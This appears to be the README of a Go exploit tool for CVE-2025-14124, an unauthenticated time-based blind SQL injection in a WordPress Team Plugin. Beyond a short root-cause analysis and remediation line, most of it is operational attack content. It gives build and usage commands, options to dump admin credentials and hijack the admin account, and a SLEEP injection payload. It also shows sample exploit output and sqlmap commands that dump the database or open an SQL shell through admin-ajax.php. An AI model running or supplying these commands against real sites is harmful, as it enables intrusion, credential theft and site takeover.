

# CVE-2025-14124

## WordPress Team Plugin - Unauthenticated SQL Injection

**Author:** Hyun Chiya

---

## Vulnerability Information

| Field | Value |
|-------|-------|
| **CVE ID** | CVE-2025-14124 |
| **Plugin** | WordPress Team Plugin |
| **Affected Versions** | < 5.0.11 |
| **Vulnerability Type** | Unauthenticated SQL Injection (Time-Based Blind) |
| **Severity** | High |

## Description

The WordPress Team Plugin does not properly sanitize and escape the `search` parameter before using it in a SQL statement via an AJAX action available to unauthenticated users, leading to SQL injection.

## Root Cause Analysis

The vulnerable code is in `app/Controllers/Frontend/Ajax/LoadMore.php`:

```php
// Line 221 - User input sanitized but NOT SQL-escaped
$sAction = sanitize_text_field( wp_unslash( $_REQUEST['search'] ) );

// Line 437-438 - VULNERABLE: Direct SQL concatenation
function tlp_team_search_where( $where ) {
    global $wpdb;
    $term = $wpdb->esc_like( $this->s['s'] );  // ⚠️ esc_like only escapes %, _, \
    $where .= "OR ({$wpdb->posts}.post_title LIKE '%{$term}%' ...)";  // ⚠️ SQLi!
}
```

**Problem**: `$wpdb->esc_like()` only escapes LIKE wildcards, NOT SQL injection metacharacters.

## Exploitation Flow



## Prerequisites

1. Target has WordPress Team Plugin installed (< 5.0.11)
2. A page with `[tlpteam]` shortcode must exist
3. At least one team member created in the plugin

## Build

```bash
go build -o CVE-2025-14124.exe main.go
```

## Usage

### Auto-detect Team Page
```bash
.\CVE-2025-14124.exe -u http://target.com
```

### Specify Team Page URL
```bash
.\CVE-2025-14124.exe -u http://target.com --page-url http://target.com/our-team/
```

### Check Plugin Only
```bash
.\CVE-2025-14124.exe -u http://target.com --check-only
```

### Custom SLEEP Delay
```bash
.\CVE-2025-14124.exe -u http://target.com --delay 5
```

## Options

| Argument | Description |
|----------|-------------|
| `-u` | Target WordPress URL (required) |
| `--page-url` | Page URL containing tlpteam shortcode |
| `--delay` | SLEEP seconds for detection (default: 1) |
| `--dump` | Extract database info and WordPress admin credentials |
| `--create-admin` | Attempt to hijack admin account (requires stacked queries) |
| `--admin-user` | Username for admin hijack (default: pwned_admin) |
| `--admin-pass` | Password for admin hijack (default: Pwned123!) |
| `--check-only` | Only check if plugin is active |
| `--timeout` | Request timeout in seconds (default: 120) |

## Data Extraction Mode (`--dump`)

When using `--dump`, the tool will extract:
- Database version
- Current database name
- Database user
- WordPress table prefix
- **Admin username**
- **Admin password hash**
- **Admin email**

**Note**: Data extraction is slow due to time-based blind SQL injection nature (~5-15 minutes for full extraction).

## Admin Hijack Mode (`--create-admin`)

Attempts to change existing admin password via SQL UPDATE. 

> ⚠️ **Important**: This mode requires **stacked queries** support, which is typically disabled in PHP+MySQL. If stacked queries are not supported, use `--dump` to extract credentials instead, or use `sqlmap --sql-shell` for direct UPDATE execution.

## Example Output

```
>> [ ONLINE ]    
    ╔═══════════════════════════════════════════════════════════════════════════════════════╗
    ║   CVE-2025-14124 - WordPress Team Plugin SQL Injection                                ║
    ║   Affected: tlp-team < 5.0.11                                                         ║
    ║   Author: Hyun Chiya                                                                  ║
    ╚═══════════════════════════════════════════════════════════════════════════════════════╝

>> [ INFORMATION ]

[*] Checking if WordPress Team Plugin is active...
[+] Plugin detected: /wp-content/plugins/tlp-team/readme.txt
[+] Plugin detected!

[*] Searching for page with tlpteam shortcode...
[+] Found team page: http://target.com/our-team/
[+] Target page: http://target.com/our-team/

[+] Extracted nonce: abc123def456
[+] Extracted scID: 42

============================================================
[*] EXPLOIT: Time-Based Blind SQL Injection
============================================================

[*] Payload: t' OR SLEEP(3) OR 't'='t
[*] Expected delay: ~9 seconds (SLEEP executes 3 times)

[*] Sending malicious request...
[*] Response time: 9.23 seconds

[+] SQL INJECTION CONFIRMED!
[+] Response delayed by ~9 seconds (expected: 9)

[!] The target is vulnerable to Time-Based Blind SQL Injection
[!] Database can be extracted using tools like sqlmap

[*] Done.
```

## Using with SQLMap

For advanced exploitation, you can use sqlmap after confirming the vulnerability:

```bash
# Dump database
sqlmap -u "http://target.com/wp-admin/admin-ajax.php" \
  --data="action=ttp_Layout_Ajax_Action&scID=32&tlp_nonce=NONCE&search=test" \
  -p search --dbms=mysql --technique=T --batch --dump

# SQL Shell (for UPDATE queries)
sqlmap -u "http://target.com/wp-admin/admin-ajax.php" \
  --data="action=ttp_Layout_Ajax_Action&scID=32&tlp_nonce=NONCE&search=test" \
  -p search --dbms=mysql --technique=T --sql-shell
```

## Remediation

> ⚠️ **IMPORTANT**: Update WordPress Team Plugin to version 5.0.11 or later where the vulnerability has been patched with proper SQL escaping using `$wpdb->prepare()`.

## References

- [WPScan Vulnerability Database](https://wpscan.com/vulnerability/fdd19027-b70e-45a4-882b-77ab1819af91/)

## Disclaimer

This tool is provided for educational and authorized security testing purposes only. Unauthorized access to computer systems is illegal. Use responsibly.

## Author

**Hyun Chiya**
